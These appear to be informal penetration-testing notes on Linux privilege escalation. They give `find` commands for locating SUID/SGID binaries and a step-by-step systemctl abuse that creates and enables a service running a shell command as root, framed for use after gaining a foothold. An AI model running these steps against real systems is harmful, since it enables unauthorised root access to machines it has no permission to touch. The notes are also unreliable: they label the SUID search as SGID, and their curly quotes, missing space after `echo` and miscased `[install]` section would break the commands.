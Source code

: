 <H3>Escalation via SUID or SGID</H3>
u can use this when u established foothold/access
command:
**(SGID)**: 
	``find / -type f -perm -04000 -ls 2>/dev/null
OR
**(SUID)**: 
	``find / -perm -u=s -type f 2>/dev/null
OR
	`find / -type f -perm -u=s 2>/dev/null`

sample: usr/bin/systemctl

go to gtfobins and look for suid
sudo sh -c ‘cp $(which systemctl) .; chmod +s ./systemctl'

(enter this line by line)
TF=$(mktemp).service
echo'[Service]
Type=oneshot
ExecStart=/bin/sh -c “id > /tmp/output”
[install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
after pasting all, u must run:

cat /tmp/output